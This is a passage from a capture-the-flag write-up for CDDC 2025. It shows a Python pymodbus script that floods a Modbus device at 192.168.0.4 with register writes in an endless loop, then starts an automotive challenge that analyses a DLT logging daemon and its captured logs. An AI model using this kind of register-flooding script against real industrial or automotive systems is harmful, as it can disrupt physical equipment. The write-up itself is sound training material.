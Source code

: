 If it still refused to work, I was ready to spawn 10 terminals to run the code 10 times. :\)

```py
from pymodbus.client import ModbusTcpClient
import time

client = ModbusTcpClient('192.168.0.4')

if not client.connect():
    print("Failed to connect to Modbus server!")

print("Connected successfully!")

while True:
    reg_result = client.write_registers(1, [1, 1, 1])

client.close()
print("Connection closed.")
```

## OT - IVI2

> Do you know what DLT is?
> If you want to go to the future, it is important to know about DLT.
> 
> There is a hint on how to use DLT in netstat.txt.
> 
> The provided binary is one of many binaries that use this DLT.
> 
> It is said that the clue to go to the future is in this binary(updatemgr).
> The binary provided on stage is running.
> 
> Analyze the binary to find the file that can get the flag to go to the future.

We are provided with 3 files, `updatemgr` `netstat.txt` and `cddc2025.dlt`.

**netstat.txt**

```
netstat -natlp | grep dlt | grep LISTEN
tcp        0      0 :::3490                 :::*                    LISTEN      249/dlt-daemon
```

This shows the `dlt-daemon` listening on port 3490.

> DLT refers to Diagnostic Log and Trace which is basically a common logging protocol used in automotives. [dlt-daemon](https://github.com/COVESA/dlt-daemon) would be the listening service in an automotive component that sends logging over the network.

`cddc2025.dlt` contains the logging messages that were captured at some point of time. If we run `strings` on the file, we can see lots of logging messages such as the following:

```
UPDM_wbIsFilePathExists() [Warn]file path does not exist. [/AccessDev.dat].
UPDM_wemReadFileData() [Err]failed to open file [/opt/ota/usrpwd.txt].
[16170.653955] TouchReport X(152)
[16170.653983] TouchReport Y(470)
[16170.653997] TouchReport Z(124)
```
